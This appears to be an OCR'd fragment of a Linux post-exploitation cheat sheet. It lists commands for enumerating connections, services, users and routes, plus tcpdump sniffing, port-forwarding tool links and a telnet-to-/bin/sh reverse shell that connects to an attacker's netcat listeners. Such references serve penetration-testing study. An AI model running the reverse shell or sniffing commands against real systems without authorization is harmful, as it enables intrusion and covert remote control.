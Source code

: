 	

lsof -i
lsof -i :80
grep 80 /etc/services
netstat -antup
netstat -antpx
netstat -tulpn
chkconfig --list
chkconfig --list | grep 3:on
last
w


Whats cached? IP and/or MAC addresses

1
2
3

	

arp -e
route
/sbin/route -nee


Is packet sniffing possible? What can be seen? Listen to live traffic

1

	

tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21


Note: tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]

Have you got a shell? Can you interact with the system?

1
2
3

	

nc -lvp 4444    # Attacker. Input (Commands)
nc -lvp 4445    # Attacker. Ouput (Results)
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!


Note: http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/

Is port forwarding possible? Redirect and interact with traffic from another view
Note: http://www.boutell.com/rinetd/
Note: http://www.howtoforge.com/port-forwarding-with-rinetd-on-debian-etch
Note: http://downloadcenter.mcafee.com/products/tools/foundstone/fpipe2_1.zip
Note: FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]

1

	